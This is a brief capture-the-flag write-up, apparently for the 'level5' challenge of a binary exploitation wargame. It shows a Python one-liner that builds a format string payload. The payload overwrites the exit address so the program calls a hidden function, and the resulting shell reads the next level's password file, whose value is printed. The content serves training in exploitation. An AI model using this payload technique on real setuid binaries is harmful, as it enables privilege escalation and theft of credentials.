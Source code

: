 ```sh
$> ls -l ~
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

We first tried to inject change the buffer itself but it didn't worked.  
We then thought about changing `exit` address to call `o` function.

```sh
$> python -c 'print("\x38\x98\x04\x08" + "%134513824d" + "%4$n")' > /tmp/payload

$> cat /tmp/payload - | ./level5
[...]
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
